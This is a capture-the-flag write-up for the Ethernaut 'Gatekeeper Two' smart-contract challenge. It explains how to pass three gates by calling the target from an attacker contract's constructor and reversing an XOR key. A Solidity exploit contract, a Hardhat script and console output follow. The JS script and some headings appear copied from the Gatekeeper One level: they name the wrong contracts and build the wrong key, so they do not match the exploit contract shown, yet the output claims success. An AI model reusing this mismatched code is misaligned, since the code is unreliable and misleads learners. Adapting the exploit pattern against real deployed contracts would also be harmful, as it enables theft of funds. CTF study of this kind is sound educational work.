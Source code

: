 ```yaml
---
title: Ethernaut \#14 Gatekeeper Two
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Gatekeeper Two challenge writeup
---
```


## Gatekeeper Two

### Challenge

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

#### Things that might help:

* Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
* The `assembly` keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See [here](http://solidity.readthedocs.io/en/v0.4.23/assembly.html) for more information. The `extcodesize` call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf).
* The `^` character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see [here](http://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet)). The Coin Flip level is also a good place to start when approaching this challenge.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

### Background

This challenge is somewhat similar to `GatekeeperOne`. It mainly has multiple conditions in order that need to be satisfied in order to pass the challenge.

The `extcodesize` bytecode returns (pushes onto the stack) the size of the contract it got as an argument (poped from the stack). According to the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf) section 7, page 11, footnote 5, 

> During initialization code execution, EXTCODESIZE on the address should return zero...

This will be very useful in order to bypass the second modifier.

The `keccack` function is the hash function used on the ethereum blockchain.


### Attack

In order to enter, three `modifier`s need to be satisfied, the first require the `msg.sender` and `tx.origin` to be different. This can be achieved using a smart contract to trigger the `enter` function. Then the `extcodesize` needs to return a value of `0`. As discussed already, this can be achieved if the caller code (in this case the attacker controlled contract), is executed during its initialization (`constructor` execution). Finally the last `modifier` requires the a simple `boolean` equation to be satisfied. This operation is very easy to reverse since its just an `XOR` (`^`) operator. 

* Create a contract that calls the `GatekeeperOne` `enter` function during the `constructor` execution
* To calculate the `_gateKey` to provide simply re-arranging the check to `_gateKey = (uint64(0) - 1) ^ uint64(bytes8(keccak256(abi.encodePacked(this)))))`
* Trigger the attacker controlled contract to call the `enter` function

#### GatekeeperOneSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import '../challenges/GatekeeperTwo.sol';

contract GatekeeperTwoSolve {

    constructor(address payable _gatekeeperTwoAddress) public {
        GatekeeperTwo gatekeeperTwoContrtact = GatekeeperTwo(_gatekeeperTwoAddress);
        bytes8 gateKey = bytes8((uint64(0) - 1) ^ uint64(bytes8(keccak256(abi.encodePacked(this)))));
        gatekeeperTwoContrtact.enter(gateKey);
    }

}
```


#### gatekeeper-two-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    gatekeeperOneAddress = "0x24315b9ab5e38cF2F6126F7827D2EB3aC5296b27";
    contract = await ethers.getContractAt("GatekeeperOne", gatekeeperOneAddress);
    
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];
    
    GatekeeperOneSolve = await ethers.getContractFactory("GatekeeperOneSolve");
    gatekeeperOneSolve = await GatekeeperOneSolve.deploy();
    await gatekeeperOneSolve.deployed();

    console.log("Initial entrant: " + await contract.entrant())

    // generate the gate key
    gateKey = ethers.utils.hexZeroPad(ethers.utils.hexConcat([
        "0x01", 
        "0x0000", 
        ethers.utils.hexDataSlice(account.address, 18)
    ]), 8)

    console.log(gateKey)

    // submit the gate key
    tx = await gatekeeperOneSolve.connect(account).enter(contract.address, gateKey)
    receipt = await tx.wait()

    console.log("Entrant        : " + await contract.entrant())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/gatekeeper-two-solve.js --network rinkeby
Compiled 1 Solidity file successfully
Initial entrant: 0x0000000000000000000000000000000000000000
Entrant        : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
```

### Success Message

Way to go! Now that you can get past the gatekeeper, you have what it takes to join [theCyber](https://etherscan.io/address/thecyber.eth#code), a decentralized club on the Ethereum mainnet. Get a passphrase by contacting the creator on [reddit](https://www.reddit.com/user/0age) or via [email](0age@protonmail.com) and use it to register with the contract at [gatekeepertwo.thecyber.eth](https://etherscan.io/address/gatekeepertwo.thecyber.eth#code) (be aware that only the first 128 entrants will be accepted by the contract).

(unfortunately by the time I was done with this the 128 spots were already filled)
